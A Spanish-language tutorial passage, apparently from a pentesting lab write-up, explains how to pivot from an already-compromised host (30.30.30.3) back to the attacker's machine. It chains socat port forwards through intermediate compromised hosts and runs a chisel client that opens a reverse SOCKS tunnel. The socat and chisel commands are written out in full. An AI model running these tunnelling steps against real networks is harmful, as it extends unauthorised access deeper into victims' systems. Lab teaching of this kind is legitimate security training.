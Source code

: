 A continuación, conseguimos vulnerar la máquina **30.30.30.3**. Vemos que esta máquina, tiene otra interfaz por la cual tiene conectividad con la **40.40.40.2** y, para poder atacarla, deberemos de tener conectividad con esta. Lo que vamos a realizar a continuación es, conectarnos desde la **30.30.30.3** a nuestra máquina **10.10.10.1**, y para ello, deberemos de conectarnos a nuestro nodo más cercano desde la **30.30.30.3**.

El nodo más cercano de la **30.30.30.3** es la **30.30.30.2**. Con `chisel` nos conectaremos a la **30.30.30.2** como clientes, por el puerto *3333*, y especificaremos como puerto que se nos abrirá en nuestro servidor `chisel`, el *3331*. Seguidamente, desde la máquina **20.20.20.3** (también es la **30.30.30.2**), redirigiremos todas las conexiones que lleguen a nuestro puerto *3333*, al puerto *3332* de la máquina **20.20.20.2**. Por último, desde la máquina **10.10.10.2** (también es la **20.20.20.2**), redirigiremos todas las conexiones que lleguen al puerto *3332* a nuestro puerto *1234*, desde el cual estamos escuchando en nuestro servidor `chisel`.

Vamos a verlo de forma práctica. Como primera instancia, nos abriremos una consola en la máquina **10.10.10.2** desde la cual, ejecutaremos el siguiente comando que redirigirá todas sus conexiones al puerto *3332*, hacia nuestro puerto *1234*, que es donde reside nuestro servidor `chisel`.

```bash
./socat TCP-LISTEN:3332,fork TCP:10.10.10.1:1234
```

A continuación, nos abriremos otra consola en la máquina **20.20.20.3** desde la cual, estaremos redirigiendo todas las conexiones hacia el puerto *3331* al puerto *3332* de la máquina **20.20.20.2**.

```bash
./socat TCP-LISTEN:3333,fork TCP:20.20.20.2:3332
```

Y por último, desde la consola en la máquina **30.30.30.3**, nos conectaremos con `chisel` a la máquina **30.30.30.2** por el puerto *3333*.

```bash
./chisel client 30.30.30.2:3333 R:3331:socks
```

Como podemos ver, nos hemos conseguido conectar a nuestro servidor `chisel`.
